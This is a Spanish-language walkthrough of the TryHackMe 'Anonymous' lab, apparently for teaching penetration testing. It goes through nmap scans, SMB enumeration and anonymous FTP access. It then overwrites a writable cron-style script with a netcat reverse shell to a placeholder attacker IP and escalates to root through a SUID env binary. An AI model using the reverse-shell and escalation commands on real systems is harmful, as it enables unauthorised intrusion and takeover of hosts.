





La máquina 'Anonymous' es un entorno de pruebas diseñado para simular una intrusión en un sistema. En este escenario, se emplean servicios de FTP y SMB (Server Message Block) como puntos de entrada para llevar a cabo la intrusión. Estos servicios a menudo se encuentran en sistemas y redes empresariales y, si no se configuran adecuadamente, pueden presentar vulnerabilidades que los atacantes pueden aprovechar.

Created by  [Nameless0ne](https://tryhackme.com/p/Nameless0ne)

[Anonymous - tryhackme ](https://tryhackme.com/room/anonymous)

## Enumeración 

### Enumeración de Puertos abiertos

Empezaremos haciendo un escaneo de los puertos abiertos de la maquina victima

```java
❯ nmap -p- --open --min-rate 5000 -Pn -n -vvv [IP]
```
Los parametros que usamos son:

- `-p-`: Este parámetro indica a Nmap que escanee todos los puertos posibles en el host de destino. El guion ("-") es una abreviatura que representa el rango de puertos del 1 al 65535.

- `--open`: Este parámetro le indica a Nmap que solo muestre los puertos abiertos en el resultado del escaneo. Es útil para reducir la cantidad de información a mostrar.

- `--min-rate 5000`: Este parámetro establece la velocidad mínima a la que Nmap enviará paquetes de sondeo al host de destino. En este caso, se ha configurado a 5000 paquetes por segundo. Un valor alto como este puede acelerar el escaneo, pero ten en cuenta que también puede aumentar la posibilidad de detectar los escaneos por parte de sistemas de defensa.

- `-Pn`: Este parámetro indica a Nmap que no realice un escaneo de ping para verificar si el host de destino está activo. En lugar de eso, Nmap asumirá que el host está activo y escaneará todos los puertos especificados.

- `-n`: Con este parámetro, se le dice a Nmap que no realice la resolución de DNS para las direcciones IP. Esto significa que no intentará traducir las direcciones IP a nombres de host.

- `-vvv`: Esto es una opción de verbosidad que le indica a Nmap que muestre una salida extremadamente detallada. Cuantos más "v" uses, más detallada será la salida.

- `[IP]`: Esta es la dirección IP del host que se está escaneando. Es el objetivo del escaneo.

```java
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-17 16:07 -05
Initiating Connect Scan at 16:07
Scanning 10.10.184.158 [65535 ports]
Discovered open port 21/tcp on 10.10.184.158
Discovered open port 22/tcp on 10.10.184.158
Discovered open port 445/tcp on 10.10.184.158
Discovered open port 139/tcp on 10.10.184.158
Completed Connect Scan at 16:07, 15.80s elapsed (65535 total ports)
Nmap scan report for 10.10.184.158
Host is up, received user-set (0.19s latency).
Scanned at 2023-10-17 16:07:16 -05 for 15s
Not shown: 63302 closed tcp ports (conn-refused), 2229 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT    STATE SERVICE      REASON
21/tcp  open  ftp          syn-ack
22/tcp  open  ssh          syn-ack
139/tcp open  netbios-ssn  syn-ack
445/tcp open  microsoft-ds syn-ack
```

### Enumeración de los servicios y versiones 

Una vez enumerado los puertos abiertos, vamos a realizar el escaneo de los servicios

```java
❯ nmap -p21,22,139,445 -sC -sV -Pn -n -vvv [IP] -oN servicesScan
```

Los parametros son: 

`-sC`: Esta opción activa el escaneo de scripts de Nmap. Los scripts de Nmap son pequeños programas que realizan tareas específicas durante el escaneo, como la detección de vulnerabilidades o la obtención de información adicional sobre los servicios en ejecución.

`-sV`: Este parámetro le indica a Nmap que realice un escaneo de versiones en los servicios que encuentra. Intentará identificar la versión de los servicios y proporcionará información sobre ellos.

`-Pn`: Al igual que en la línea de comando anterior, este parámetro indica a Nmap que no realice un escaneo de ping previo para verificar si el host de destino está activo. Se asumirá que el host está activo.

`-n`: Nuevamente, este parámetro le dice a Nmap que no realice la resolución de DNS para las direcciones IP. No intentará traducir las direcciones IP a nombres de host.

`-vvv`: Al igual que en la línea de comando anterior, esta opción establece un alto nivel de verbosidad y hará que Nmap muestre una salida extremadamente detallada.

[IP]: Aquí deberías reemplazar "[IP]" con la dirección IP del host que deseas escanear. Es el objetivo del escaneo.

`-oN servicesScan`: Con este parámetro, estás especificando que Nmap debe guardar la salida del escaneo en un archivo con el nombre "servicesScan". Esto es útil para revisar la información recopilada en el futuro.

```java
PORT    STATE SERVICE     REASON  VERSION
21/tcp  open  ftp         syn-ack vsftpd 2.0.8 or later
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:[Ip-Attacker]
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]
22/tcp  open  ssh         syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8b:ca:21:62:1c:2b:23:fa:6b:c6:1f:a8:13:fe:1c:68 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDCi47ePYjDctfwgAphABwT1jpPkKajXoLvf3bb/zvpvDvXwWKnm6nZuzL2HA1veSQa90ydSSpg8S+B8SLpkFycv7iSy2/Jmf7qY+8oQxWThH1fwBMIO5g/TTtRRta6IPoKaMCle8hnp5pSP5D4saCpSW3E5rKd8qj3oAj6S8TWgE9cBNJbMRtVu1+sKjUy/7ymikcPGAjRSSaFDroF9fmGDQtd61oU5waKqurhZpre70UfOkZGWt6954rwbXthTeEjf+4J5+gIPDLcKzVO7BxkuJgTqk4lE9ZU/5INBXGpgI5r4mZknbEPJKS47XaOvkqm9QWveoOSQgkqdhIPjnhD
|   256 95:89:a4:12:e2:e6:ab:90:5d:45:19:ff:41:5f:74:ce (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPjHnAlR7sBuoSM2X5sATLllsFrcUNpTS87qXzhMD99aGGzyOlnWmjHGNmm34cWSzOohxhoK2fv9NWwcIQ5A/ng=
|   256 e1:2a:96:a4:ea:8f:68:8f:cc:74:b8:f0:28:72:70:cd (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDHIuFL9AdcmaAIY7u+aJil1covB44FA632BSQ7sUqap
139/tcp open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open              syn-ack Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 31766/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 31391/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 53233/udp): CLEAN (Failed to receive data)
|   Check 4 (port 28546/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-time: 
|   date: 2023-10-17T21:10:06
|_  start_date: N/A
| nbstat: NetBIOS name: ANONYMOUS, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   ANONYMOUS<00>        Flags: <unique><active>
|   ANONYMOUS<03>        Flags: <unique><active>
|   ANONYMOUS<20>        Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
| Statistics:
|   00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
|   00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
|_  00:00:00:00:00:00:00:00:00:00:00:00:00:00
|_clock-skew: mean: 0s, deviation: 1s, median: 0s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: anonymous
|   NetBIOS computer name: ANONYMOUS\x00
|   Domain name: \x00
|   FQDN: anonymous
|_  System time: 2023-10-17T21:10:07+00:00
```

### Enumeración del SMB-445 

Para realizar la enumeración del servicio `smb`, usaremos `smbmap`

```java
❯ smbmap -H 10.10.184.158 -u "guest"
```

`smbmap`: Esta es la herramienta que estás utilizando, smbmap. Esta herramienta se utiliza para enumerar recursos compartidos de red y permisos en servidores SMB, como máquinas Windows.

`-H [IP]`: Este parámetro se utiliza para especificar la dirección IP del host de destino al que deseas conectarte a través de SMB. En este caso, el host de destino tiene la dirección [IP].

`-u "guest"`: Aquí, estás proporcionando un nombre de usuario para autenticarte en el servidor SMB. En este caso, el nombre de usuario es "guest". "Guest" es un usuario especial que se utiliza comúnmente para acceder a recursos compartidos SMB sin necesidad de autenticación o con credenciales limitadas.


```java

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
 -----------------------------------------------------------------------------
     SMBMap - Samba Share Enumerator | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB
[*] Established 1 SMB session(s)                                
                                                                                                    
[+] IP: 10.10.184.158:445       Name: 10.10.184.158             Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        pics                                                    READ ONLY       My SMB Share Directory for Pics
        IPC$                                                    NO ACCESS       IPC Service (anonymous server (Samba, Ubuntu))
```

Tenemos una carpeta que podemos leer, pero no encontraremos nada interesante para realizar la intrusión

### Enumeración del FTP-21

Tenemos acceso al servicio `ftp` como usuario `anonymous`

```java
ftp [IP]
```



Logramos ingresar al servicio `ftp` y podemos visualizar algunos archivos



El archivo `clean.sh` se ve interesante y podemos observar que podemos sobre escribir

## Explotación

### FTP
Para probar, podemos hacer un `put clean.sh` nos damos cuenta que podemos escribir en el archivo

Creamos un archivo `clean.sh`, en el que estará nuestra reverse shell. Podemos usar el siguiente comando:

```java
#!/bin/bash
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [Ip-Attacker] 777 >/tmp/f
```

Ahora nos ponemos a la escucha con `ncat` para pder recibir la shell



¡VAMOS! tenemos una shell de la maquina victima.

## Escalación de privilegios

### Usuario: namelessone

Ahora para escalar privilegios realizamos un `find / -type f -perm -04000 -ls 2>/dev/null` para realizar una busqueda de binarios que son `SUID` 

```java
namelessone@anonymous:~$ find / -type f -perm -04000 -ls 2>/dev/null
```

`find`: Este es el comando principal que se utiliza para buscar archivos y directorios en el sistema de archivos.

`/`: Es el directorio raíz desde el cual se iniciará la búsqueda. En este caso, la búsqueda se realizará en todo el sistema de archivos.

`-type f`: Este parámetro indica a find que solo busque archivos regulares (no directorios ni otros tipos de archivos).

`-perm -04000`: Aquí especificas el atributo de permisos que estás buscando. El número "04000" se refiere a archivos con el conjunto de bits SUID activado. Los archivos SUID suelen tener permisos numéricos que comienzan con "4". El 4 indica que el bit SUID está activado, y el 000 indica que no importa qué permisos tenga el grupo o otros usuarios.

`-ls`: Este parámetro le dice a find que liste los archivos que coinciden con los criterios en un formato similar al comando ls.

`2>/dev/null`: Esta parte del comando redirige los mensajes de error estándar (file descriptor 2) a /dev/null, lo que significa que los errores generados durante la búsqueda no se mostrarán en la salida estándar.



Tenemos un binario `SUID` el cual es vulnerable, en [GTGOBINS](https://gtfobins.github.io/gtfobins/env/#suid) puedes tener mas detalles

Ahora ejecutaremos el comando, para poder tener una shell del usuario `root`

```java
namelessone@anonymous:~$ /usr/bin/env /bin/sh -p
```

### Usuario: root



¡VAMOS! somos root